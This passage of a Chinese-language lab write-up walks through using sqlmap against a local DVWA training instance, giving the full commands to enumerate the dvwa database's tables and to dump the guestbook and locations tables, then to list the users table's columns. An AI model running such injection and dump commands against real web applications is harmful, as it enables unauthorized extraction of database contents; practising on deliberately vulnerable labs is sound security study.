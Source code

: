 

##### ④查看dvwa 数据库中的表

由于要求获得dvwa数据库中的所有表的内容，先查看dvwa 数据库中的表。

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/?id=id%3D1&Submit=Submit#" --cookie="security=low; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa --tables`

![image-20211102212536362](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949886.png)

看到有3张表：guestbook、locations、users，之后依次查看其中的内容。



##### ⑤查看表guestbook中的列和数据

通过`-D dvwa`指定dvwa数据库，`-T guestbook`指定guestbook表，`--columns`查看表中所有列：

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/?id=id%3D1&Submit=Submit#" --cookie="security=low; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T guestbook --columns` 

![image-20211101152243266](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949314.png)

guestbook表中共有3列：comment,comment_id,name，查看其中内容：

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/?id=id%3D1&Submit=Submit#" --cookie="security=low; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T guestbook -C "comment,comment_id,name" --dump`

![image-20211101152400433](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949135.png)



##### ⑥查看表locations中的列和数据

同理：`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/?id=id%3D1&Submit=Submit#" --cookie="security=low; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T locations --columns`

![image-20211102213049564](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949070.png)

locations表中共有3列：latitude, longtitude, name，查看其中内容：

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/?id=id%3D1&Submit=Submit#" --cookie="security=low; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T locations -C "latitude,longtitude,name" --dump`

![image-20211102213209549](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949635.png)



##### ⑦查看表user中的列和数据

同理：`sqlmap.py -u "http://127.0.0.1:8080/dvwa/vulnerabilities/sqli/?id=id%3D1&Submit=Submit#" --cookie="security=low;PHPSESSID=ob0bq1lqdc8lmevehkdr5e0fu2" --batch -D dvwa -T users --columns` 

![image-20211101152608702](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950533.png)
